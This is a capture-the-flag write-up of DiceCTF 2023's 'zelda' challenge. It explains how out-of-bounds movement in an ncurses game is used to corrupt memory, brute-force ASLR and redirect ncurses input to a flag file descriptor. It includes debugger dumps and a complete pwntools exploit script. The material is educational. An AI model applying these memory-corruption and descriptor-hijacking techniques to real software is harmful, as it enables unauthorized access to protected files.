






# CTF Writeup: *zelda* (DiceCTF 2023)

By Jonathan Keller ([OSUSEC](https://osusec.org))

Challenge author: pepsipu

> try out my cool new zelda game!!



As the name suggests, the challenge is a simple 2D top-down game, written using ncurses. You can move around, you can go through a door to get to another room, and you can place and pick up piles of "coins":



The code is very simple, and has debug symbols! The game loop is:

- Process all pending keyboard input (up to 0x28 keypresses).
- If the player is standing on a door, send them to the destination room.
- Draw the screen.

Each room is stored as a 16x8 grid of tiles, represented as a 2D array of bytes in the data segment. The two rooms are stored contiguously, resulting in a 16x8x2 array describing the game world. There is no bounds-checking on the game world; the game "expects" the walls to keep you in bounds.

For each tile byte, the two least significant bits determine the tile's type: 0 is air, 1 is a coin pile, 2 is a door, and 3 is a wall. The remaining bits determine the tile's appearance and properties. For a coin pile, these bits hold the number of coins in the pile; for a door, these bits hold the room ID of the destination room.

The player can place a coin pile at any time, which replaces the tile they're standing on with a pile containing the value of their coin counter, and resets the coin counter to zero. When the player is standing on a coin pile, they can collect the coins which replaces the pile with air and adds the number of coins in the pile to their coin counter.

Since the code was simple, I reached this level of understanding relatively quickly...and realized I had no idea where to go from here. Due to the game's simplicity, there was no obvious bug! The set of actions I could take were very limited -- there's no "read a string into a buffer that's obviously too small", or anything like that.

Oh, also, the program opens ten file descriptors to `flag.txt` on startup, and then doesn't do anything with them.

## Hunting for Jank

When looking for bugs in videogames, I usually start with something that just feels a little off -- some mechanic that doesn't quite behave as you'd expect, or some weird interaction that doesn't quite look smooth. Because often, these rough edges can be turned into a meaningful glitch if you find the right setup.

In this case, I thought it seemed a little odd that, if you stepped on a door, the door transition didn't actually take effect until after the game finished processing keyboard input. I realized pretty quickly that this allowed you to erase a door by placing a coin on it...thus trapping yourself in the room. Hooray.



But since I'd found a source of jank, I decided to look closer, even though I still didn't see an exploitable bug. I idly fidgeted with the game while thinking about the problem, just sort of hitting different combinations of actions and seeing if I could find more bugs. And sure enough, I suddenly found myself stuck in the wall!



I took a closer look at the door-transition logic, and was quickly able to reproduce the glitch. When you go through a door, the game saves the direction you entered the door from, so that when you come out that same door it can place you facing away from the door. But if you stand on the door and face upwards before the door transition occurs, the game assumes you entered the door from below and will place you below the door when you leave.

You can't move while you're stuck in a wall, but you can erase the wall by placing a coin, letting you escape the confines of the room and freely wander out-of-bounds.



## Exploring Memory

At this point, we can freely explore the contents of the `DATA` segment following the rooms. We can also write to memory by placing coins: we can easily write a 1 by placing zero coins, or a 0 by placing zero coins and then picking them back up again. Writing other values is less trivial, but possible: we have to find a pile of coins somewhere in memory that we can take.

Unfortunately...there's just not a lot there before we hit the end of the DATA segment:

```
pwndbg> hexdump rooms
+0000 0x555dd9f26040  09 04 00 00  03 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
+0010 0x555dd9f26050  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
+0020 0x555dd9f26060  00 00 00 00  00 00 00 00  00 00 00 00  43 03 03 03  │....│....│....│C...│
+0030 0x555dd9f26070  03 03 03 63  00 00 00 00  00 00 00 43  a3 00 00 00  │...c│....│...C│....│
+0040 0x555dd9f26080  00 00 00 23  00 00 00 00  00 00 00 23  06 00 00 00  │...#│....│...#│....│
+0050 0x555dd9f26090  00 00 00 23  00 00 00 00  00 00 00 83  63 00 00 00  │...#│....│....│c...│
+0060 0x555dd9f260a0  00 00 00 23  00 00 00 00  00 00 00 00  83 03 03 03  │...#│....│....│....│
+0070 0x555dd9f260b0  03 03 03 a3  00 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
+0080 0x555dd9f260c0  00 00 00 00  00 00 00 00  00 09 04 00  00 03 00 00  │....│....│....│....│
+0090 0x555dd9f260d0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
...
+00b0 0x555dd9f260f0  00 00 00 00  00 43 03 03  03 03 03 03  63 00 00 00  │....│.C..│....│c...│
+00c0 0x555dd9f26100  00 00 00 00  43 a3 00 00  00 00 00 00  23 00 00 00  │....│C...│....│#...│
+00d0 0x555dd9f26110  00 00 00 00  23 02 00 00  00 00 00 00  23 00 00 00  │....│#...│....│#...│
+00e0 0x555dd9f26120  00 00 00 00  83 03 03 03  03 03 03 03  a3 00 00 00  │....│....│....│....│
+00f0 0x555dd9f26130  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
...
+0120 0x555dd9f26160  09 04 01 00  03 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
+0130 0x555dd9f26170  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
+0140 0x555dd9f26180  00 00 00 00  ff ff ff ff  01 00 00 00  00 00 00 00  │....│....│....│....│
+0150 0x555dd9f26190  00 00 00 00  01 00 00 00  ff ff ff ff  00 00 00 00  │....│....│....│....│
+0160 0x555dd9f261a0  00 00 00 00  01 00 40 00  02 00 40 00  03 00 40 00  │....│..@.│..@.│..@.│
+0170 0x555dd9f261b0  04 00 40 00  05 00 40 00  06 00 40 00  07 00 40 00  │..@.│..@.│..@.│..@.│
+0180 0x555dd9f261c0  08 00 40 00  09 00 40 00  0a 00 40 00  0b 00 40 00  │..@.│..@.│..@.│..@.│
+0190 0x555dd9f261d0  0c 00 40 00  0d 00 40 00  0e 00 40 00  0f 00 40 00  │..@.│..@.│..@.│..@.│
+01a0 0x555dd9f261e0  10 00 40 00  11 00 40 00  12 00 40 00  13 00 40 00  │..@.│..@.│..@.│..@.│
+01b0 0x555dd9f261f0  14 00 40 00  15 00 40 00  16 00 40 00  17 00 40 00  │..@.│..@.│..@.│..@.│
+01c0 0x555dd9f26200  18 00 40 00  19 00 40 00  1a 00 40 00  1b 00 40 00  │..@.│..@.│..@.│..@.│
+01d0 0x555dd9f26210  1c 00 40 00  1d 00 40 00  1e 00 40 00  1f 00 40 00  │..@.│..@.│..@.│..@.│
+01e0 0x555dd9f26220  20 00 40 00  21 00 40 00  22 00 40 00  23 00 40 00  │..@.│!.@.│".@.│#.@.│
+01f0 0x555dd9f26230  24 00 40 00  25 00 40 00  26 00 40 00  27 00 40 00  │$.@.│%.@.│&.@.│'.@.│
+0200 0x555dd9f26240  28 00 40 00  29 00 40 00  2a 00 40 00  2b 00 40 00  │(.@.│).@.│*.@.│+.@.│
+0210 0x555dd9f26250  2c 00 40 00  2d 00 40 00  2e 00 40 00  2f 00 40 00  │,.@.│-.@.│..@.│/.@.│
+0220 0x555dd9f26260  30 00 40 00  31 00 40 00  32 00 40 00  33 00 40 00  │0.@.│1.@.│2.@.│3.@.│
+0230 0x555dd9f26270  34 00 40 00  35 00 40 00  36 00 40 00  37 00 40 00  │4.@.│5.@.│6.@.│7.@.│
+0240 0x555dd9f26280  38 00 40 00  39 00 40 00  3a 00 40 00  3b 00 40 00  │8.@.│9.@.│:.@.│;.@.│
+0250 0x555dd9f26290  3c 00 40 00  3d 00 40 00  3e 00 40 00  3f 00 40 00  │<.@.│=.@.│>.@.│?.@.│
+0260 0x555dd9f262a0  40 00 40 00  41 00 40 00  42 00 40 00  43 00 40 00  │@.@.│A.@.│B.@.│C.@.│
+0270 0x555dd9f262b0  44 00 40 00  45 00 40 00  46 00 40 00  47 00 40 00  │D.@.│E.@.│F.@.│G.@.│
+0280 0x555dd9f262c0  48 00 40 00  49 00 40 00  4a 00 40 00  4b 00 40 00  │H.@.│I.@.│J.@.│K.@.│
+0290 0x555dd9f262d0  4c 00 40 00  4d 00 40 00  4e 00 40 00  4f 00 40 00  │L.@.│M.@.│N.@.│O.@.│
+02a0 0x555dd9f262e0  50 00 40 00  51 00 40 00  52 00 40 00  53 00 40 00  │P.@.│Q.@.│R.@.│S.@.│
+02b0 0x555dd9f262f0  54 00 40 00  55 00 40 00  56 00 40 00  57 00 40 00  │T.@.│U.@.│V.@.│W.@.│
+02c0 0x555dd9f26300  58 00 40 00  59 00 40 00  5a 00 40 00  5b 00 40 00  │X.@.│Y.@.│Z.@.│[.@.│
+02d0 0x555dd9f26310  5c 00 40 00  5d 00 40 00  5e 00 40 00  5f 00 40 00  │\.@.│].@.│^.@.│_.@.│
+02e0 0x555dd9f26320  60 00 40 00  61 00 40 00  62 00 40 00  63 00 40 00  │`.@.│a.@.│b.@.│c.@.│
+02f0 0x555dd9f26330  64 00 40 00  65 00 40 00  66 00 40 00  67 00 40 00  │d.@.│e.@.│f.@.│g.@.│
+0300 0x555dd9f26340  68 00 40 00  69 00 40 00  6a 00 40 00  6b 00 40 00  │h.@.│i.@.│j.@.│k.@.│
+0310 0x555dd9f26350  6c 00 40 00  6d 00 40 00  6e 00 40 00  6f 00 40 00  │l.@.│m.@.│n.@.│o.@.│
+0320 0x555dd9f26360  70 00 40 00  71 00 40 00  72 00 40 00  73 00 40 00  │p.@.│q.@.│r.@.│s.@.│
+0330 0x555dd9f26370  74 00 40 00  75 00 40 00  76 00 40 00  77 00 40 00  │t.@.│u.@.│v.@.│w.@.│
+0340 0x555dd9f26380  78 00 40 00  79 00 40 00  7a 00 40 00  7b 00 40 00  │x.@.│y.@.│z.@.│{.@.│
+0350 0x555dd9f26390  7c 00 40 00  7d 00 40 00  7e 00 40 00  7f 00 40 00  │|.@.│}.@.│~.@.│..@.│
+0360 0x555dd9f263a0  50 1a 01 db  5d 55 00 00  00 00 00 00  00 00 00 00  │P...│]U..│....│....│
+0370 0x555dd9f263b0  92 60 f2 d9  5d 55 00 00  0f d4 02 00  00 24 07 4b  │.`..│]U..│....│.$.K│
```

We have:

- The room definitions
- The player status, holding variables like position, direction, room number, and coin count
- ncurses' `acs_map`, which is a big table of character information that ncurses uses for something
- `stdscr`, which is a pointer to the ncurses window
- A pointer to the current tile

There's nothing in here that would help us print out a flag. The `stdscr` variable caught my eye -- we might be able to do something interesting if we could corrupt ncurses' internal state, especially since we *do* have open file descriptors pointing to our flag. But `stdscr` itself is just a pointer, and we're severely limited in what we can do with pointers because placing coins can only overwrite one byte at a time to a fairly restricted subset of values.

The actual `ncurses` data is stored on the heap, and if we could modify it there's a lot we could do!  Notably, ncurses has a struct called `SP` that stores global screen settings (defined [here](https://github.com/mirror/ncurses/blob/5b82f41330b8d9fdc4c9b9aa0edd4e0b7515020c/ncurses/curses.priv.h#L915)). This struct has an `_ifd` field that holds the file descriptor ncures reads from and an `_echo` field that determines whether characters received by the program are echoed back to the terminal. If we can enable echo and set `_ifd` to one of the flag file descriptors...then we win.

But we sadly do not have access to the heap, just the `DATA` segment, and there's a randomly-sized gap of unmapped pages between the two. And there's the problem that the player's X and Y positions are byte variables -- we couldn't possibly walk far enough to get to the heap even if we *didn't* have to worry about segfaulting along the way. I thought about trying to get an invalid room index by finding a door tile somewhere out-of-bounds, but again an 8-bit tile is not enough to get a high enough room index to reach the heap -- and we still have ASLR to contend with.

At this point, I took a break for the evening. I didn't see a way forward, and I was wondering if I had been on the wrong track -- maybe there was another bug I'd overlooked and I was chasing a dead end. But the solution hit me the next morning: the player's room index is a 4-byte variable, and we can place a coin in one of the upper bits to suddenly "jump" far forward in memory.

We still have ASLR to contend with, but the heap is always located shortly after the data segment. While this offset is randomized, there's much less entropy than with a full address, so it's feasible to brute-force.

(pepsipu, who wrote the challenge, told me after seeing my solution that brute-forcing ASLR was not part of the intended solution: instead, you could leak the heap by setting the room ID to 6 in order to cause the contents of the `stdscr` variable to be drawn as tiles on the playfield. This didn't even occur to me at the time; and while not having to brute-force would have saved a lot of trouble, it would also have made my solution script significantly more complicated as it would have needed to parse the curses output.)

```
pwndbg> vmmap
    0x555dd9f21000     0x555dd9f22000 r--p     1000 0      /home/jonathan/code/ctf/dice/zelda/zelda_patched
    0x555dd9f22000     0x555dd9f24000 r-xp     2000 1000   /home/jonathan/code/ctf/dice/zelda/zelda_patched
    0x555dd9f24000     0x555dd9f25000 r--p     1000 3000   /home/jonathan/code/ctf/dice/zelda/zelda_patched
    0x555dd9f25000     0x555dd9f26000 r--p     1000 3000   /home/jonathan/code/ctf/dice/zelda/zelda_patched
    0x555dd9f26000     0x555dd9f27000 rw-p     1000 4000   /home/jonathan/code/ctf/dice/zelda/zelda_patched
    0x555dd9f28000     0x555dd9f29000 rw-p     1000 7000   /home/jonathan/code/ctf/dice/zelda/zelda_patched
    0x555ddb008000     0x555ddb029000 rw-p    21000 0      [heap]
    ...
```

## Putting It All Together

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./zelda_patched")

context.binary = exe
debug_script='''
b *main+35
c
p/x (long)rooms >> 12
p/x (long)SP >> 12
p/x ((long)SP >> 12) - ((long)rooms >> 12)
p/x ((long)SP & 0xfff) - ((long)rooms & 0xfff)
c
'''

# pageoff = 0x341
# constoff = 0x280
# totaloff = 0x341280
#
# noecho: SP + 30c

def conn():
    if args.REMOTE:
        p = remote("mc.ax", 31869)
    elif args.D:
        p = gdb.debug([exe.path], gdbscript=debug_script)
    else:
        p = process([exe.path], stdin=PIPE, stdout=PIPE, raw=True)

    return p

def main():
    p = conn()
    
    # tick 197 certified
    UP = [b"\x1b[A"]
    DOWN = [b"\x1b[B"]
    RIGHT = [b"\x1b[C"]
    LEFT = [b"\x1b[D"]
    PUT = [b"p"] 
    GET = [b"g"] 

    out = open("payload.txt", "wb")

    def go(cmds):

        padded_len = len(cmds) + 0x28 - len(cmds)%0x28
        cmds = cmds + [b" "] * (padded_len - len(cmds))
        s = b"".join(cmds)

        p.send(s)
        out.write(s)

    go(LEFT*6)
    go(LEFT*6)
    go(LEFT)
    go(LEFT + UP)
    go(LEFT)
    go(PUT + GET)       # address 0x..5125
    go(DOWN*6)          # 5175 (room ID + 1)
    go(LEFT + GET)     # 5174 = 0 (room ID = 0)
    # now we're suddenly at 0x...0eb and we gotta get back to the room...
    go(RIGHT + RIGHT + DOWN*(0x16 - 0xe) + RIGHT*(0x174 - 0x16d))
    # we're at 0x174
    # we need to pick up 1 coins, i.e. a 0x5 byte
    # there's one at 0x1b4
    go(LEFT + DOWN*(0x1b-0x17) + RIGHT + GET + LEFT + UP*(0x1b-0x17))

    go(RIGHT + RIGHT)
    go(PUT)

    try:
        d = p.recvuntil(b"2304", timeout=2)
    except EOFError:
        print("CRASH")
        return False

    if len(d) == 0:
        print("TIMEOUT")
        return False

    print("GOOD")
    p.clean(1)

    # room index is now 0x900
    # on_tile = rooms + 0x4d100
    # SP = 0x...2c0 _ifd = 2c0 _echo = 0x5cc
    # on_tile = 0x...275
    go(RIGHT*2)
    go(DOWN * (0xb-0x7))  # 0xb7
    #go(RIGHT + GET)

    # go down + right to 0x5cc
    go(DOWN*(0x5c-0x2b) + RIGHT*(0x5cc-0x5c7))
    go(PUT + LEFT*(0x5cc-0x5c7)) # 5cc = 1; 5c7
    go(DOWN*(0x63 - 0x5c) + RIGHT) # GET 5 from 0x638
    go(GET + LEFT + UP*(0x63 - 0x2c)) # go to 0x2c7
    go(LEFT * 7) # 0x2c0

    go(PUT)

    flag = p.clean(timeout=5)
    if len(flag) > 0:
        print(flag)
        if b"dice" in flag:
            print("FLAG!!!")
        return True
    else:
        if args.REMOTE:
            p.close()
        else:
            p.kill()
        return False
    
    # p.interactive()

if __name__ == "__main__":
    while not main():
        pass
```

First, I clip out of bounds, as described above. I pick up my coin after using it to clip through the wall, so I still have one coin.

I stand on the least-significant byte of the current room ID at address 0x...175 within the data segment. This currently holds the value 1 -- or an empty coin pile. I pick up the pile, changing my room ID to 0. (This teleports me backwards in memory a ways, so I have to walk a bit to get back to the same spot in memory.)

Next, I go to the `acs_map`, find a 05 byte, and pick it up. This increases my coin counter, so I now have 2 coins. I place my coins on the second byte of the room ID, causing this byte to become 9 and causing my room ID to become 0x900.

Most of the time, the game instantly crashes since it tries to read from unmapped memory. But every few dozen attempts, I end up somewhere in the heap without crashing. And every few dozen times that I don't crash, I end up right before the `SP` struct in memory!



I walk down to the address where the `_echo` flag is stored, and place an empty coin pile to change this byte to 1. I go find a 5 byte somewhere in the struct, pick it up, and place it at the `_infd`. ncurses will now read from file descriptor 5 instead of standard input, and every character read will be echoed to standard output -- in other words, it prints the flag!

When I tested it locally, I actually got to "play" the exploit in real time -- I ran a shell one-liner that would re-run the initial part of the payload over and over until it didn't crash, then hand control over the game to me so I could explore the heap and figure out how to make the exploit work. And it did -- I got to see my test flag printed as gibberish text in the middle of my terminal! Unfortunately, I was unable to get this script to work on the real server, so I had to resort to automating it in pwntools -- which *also* proved surprisingly difficult to get to work. Automating a curses application was just painful, and there were a lot of nuances of buffering and character encoding that I never really figured out, instead resorting to trial-and-error and tweaking random things until a flag showed up. (For instance, when testing the exploit locally I had to send `\x1bOD` to send a left-arrow keypress, but when running  against the server the magic string was `\x1b[D`, and I have no idea why or what the difference is.)

---

This was an incredibly fun challenge -- it was a really cool concept with a really neat exploit. I want to give a huge thanks to pepsipu for creating this challenge and DiceGang for putting on this CTF, because I had a great time working on it.

Also, a fun fact: this type of attack works against real videogames, too! The fastest known way to beat Super Metroid uses [essentially this exact exploit](https://www.youtube.com/watch?v=vOXNOrUHQwk&start=586): abuse a bug involving player positioning during door transitions to clip out-of-bounds; find your way through the contents of RAM; and use X-Ray Scope to overwrite a flag that triggers the endgame sequence. Although Super Metroid's 2D platformer gameplay adds another layer of challenge over a top-down RPG: it's a lot harder to navigate RAM when you have to deal with gravity causing you to fall through all the 00 bytes!
